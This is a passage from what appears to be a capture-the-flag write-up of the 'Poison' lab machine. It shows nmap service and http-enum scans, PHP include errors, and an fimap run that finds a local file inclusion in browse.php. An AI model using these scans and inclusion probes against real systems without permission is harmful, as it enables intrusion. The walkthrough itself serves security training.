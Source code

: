 |_ STDV VNCAUTH_ (2)

6002/tcp open X11 syn-ack ttl 63 (access denied)

Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 24.27 seconds</pre>

nmap http enum

<pre>[root:~/Desktop/poison]# nmap -Pn -p 80 --script http-enum 10.10.10.84

Starting Nmap 7.70 ( https://nmap.org ) at 2018-04-09 15:15 BST

Nmap scan report for 10.10.10.84

Host is up, received user-set (0.032s latency).

PORT STATE SERVICE REASON

80/tcp open http syn-ack ttl 63

| http-enum: 

| /info.php: Possible information file

|_ /phpinfo.php: Possible information file

Nmap done: 1 IP address (1 host up) scanned in 3.42 seconds</pre>

Here is what we can see from the website.

<img class="alignnone wp-image-33 size-full" src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=680%2C246" alt="poison port 80" width="680" height="246" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?w=916 916w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=300%2C108 300w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png?resize=768%2C278 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> I entered testscript.php in the field and i got an error:

<pre><b>Warning</b>: include(testscript.php): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>

<pre><b>Warning</b>: include(): Failed opening 'testscript.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>

Now to search for possible LFI

<pre>[root:~/Desktop/poison]# fimap -u "http://10.10.10.84/browse.php?file=" [2/1957]

fimap v.1.00_svn (My life for Aiur) 

:: Automatic LFI/RFI scanner and exploiter 

:: by Iman Karim (fimap.dev@gmail.com)

SingleScan is testing URL: 'http://10.10.10.84/browse.php?file='

[14:53:52] [OUT] Inspecting URL 'http://10.10.10.84/browse.php?file='...

[14:53:52] [INFO] Fiddling around with URL...

[14:53:52] [OUT] [PHP] Possible file inclusion found! -&gt; 'http://10.10.10.84/browse.php?file=z2hu63pz' with Parameter 'file'.
